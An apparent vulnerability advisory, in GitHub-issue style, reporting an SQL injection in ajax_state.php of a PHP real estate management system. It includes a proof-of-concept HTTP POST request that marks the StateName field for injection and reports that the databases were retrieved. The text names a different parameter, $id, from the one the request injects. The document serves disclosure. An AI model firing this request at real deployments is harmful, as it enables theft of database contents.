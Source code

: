 # Real Estate Property Management System has sql injection vulnerability in ajax_state.php

## supplier 
https://code-projects.org/real-estate-property-management-system-php-source-code/
## Vulnerability file
$id parameter in ajax_state.php

## describe

An unrestricted SQL injection attack exists in an Real Estate Property Management System. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   id parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/89f710a7-515b-4768-ac51-ced15b68b570)

## POC

```
POST /ajax_state.php HTTP/1.1
Host: property
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://property
Connection: close
Referer: http://property/ajax_city.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

StateName=2*
```

**Result**

get databases 

![Image](https://github.com/user-attachments/assets/8dfe7598-3065-44c6-b08d-2e7dad0f8198)
